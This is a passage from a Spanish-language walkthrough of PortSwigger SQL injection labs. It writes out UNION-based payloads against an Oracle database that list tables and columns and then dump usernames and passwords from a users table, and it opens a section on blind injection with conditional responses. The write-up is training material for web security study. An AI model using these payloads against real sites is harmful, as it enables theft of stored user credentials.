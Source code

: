 - `' union select NULL,table_name from all_tables where owner = 'PETER'-- -`.

![](/assets/portswigger/sqli/web49.png)

- Ahora vamos a dumpear las columnas `' union select NULL,column_name from all_tab_columns where table_name = 'USERS_YUXJGI'-- -`.

![](/assets/portswigger/sqli/web50.png)

- Con la siguiente query vamos ver las credenciales `' union select NULL,USERNAME_YRXBVR||':'||PASSWORD_QLAFCK from USERS_YUXJGI-- -`.

![](/assets/portswigger/sqli/web51.png)

- Ahora si nos conectamos pues terminas el laboratorio y bueno a por el siguiente.

## Blind SQL injection with conditional responses

- Esta inyección es basada en la respuesta y bueno tenemos la misma web así que vamos a volver a elegir una categoría.

- Si ponemos una **'** vemos que desaparecen las cosas.

![](/assets/portswigger/sqli/web52.png)
